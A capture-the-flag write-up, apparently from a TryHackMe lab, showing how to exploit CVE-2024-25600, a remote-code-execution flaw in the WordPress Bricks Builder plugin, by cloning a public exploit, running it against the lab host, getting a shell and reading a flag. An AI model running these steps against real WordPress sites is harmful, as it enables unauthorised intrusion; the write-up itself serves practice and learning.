 This vuln exploits a flaw in the Bricks Builder plugin’s handling of user input which could lead to a RCE using a code injection exploit.

You will found the CVE down below + a link to the github repo to exploit it.

NVD link : https://nvd.nist.gov/vuln/detail/CVE-2024-25600

Github Repo : https://github.com/Chocapikk/CVE-2024-25600 (168 stars)

You can also make your own Python script but here I will use Chocapikk’s.

## Wordpress exploitation

Let’s start by cloning the exploit repo

```bash
git clone https://github.com/Chocapikk/CVE-2024-25600.git
Clonage dans 'CVE-2024-25600'...
remote: Enumerating objects: 51, done.
remote: Counting objects: 100% (51/51), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 51 (delta 18), reused 45 (delta 12), pack-reused 0 (from 0)
Réception d'objets: 100% (51/51), 20.83 Kio | 2.60 Mio/s, fait.
Résolution des deltas: 100% (18/18), fait.
```

In order to make a proper install it is highly recommended to create Python virtual environement to install the dependencies of the Python script.

To do that we can use the following command

```bash
python3 -m venv CVE-2024-25600-env # <- You can name it whatever you want
source CVE-2024-25600-env/bin/activate # We then activate the virtual environement
pip install -r requirements.txt # Only then we install the dependencies

# You can deactivate the venv using the following command
deactivate
```

Nice now let’s try to run the script !

```bash
chmod +x exploit.py # Give execution perm
python exploit.py -u https://bricks.thm/    
                                        
[*] Nonce found: 5f3fce1e00 # You can also get this value on the website source code
[+] https://bricks.thm/ is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

Well that was fast ! We finally got a shell session awesome !

We can now retrieve the first flag under /data/www/default

```bash
# pwd
/data/www/default

# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```
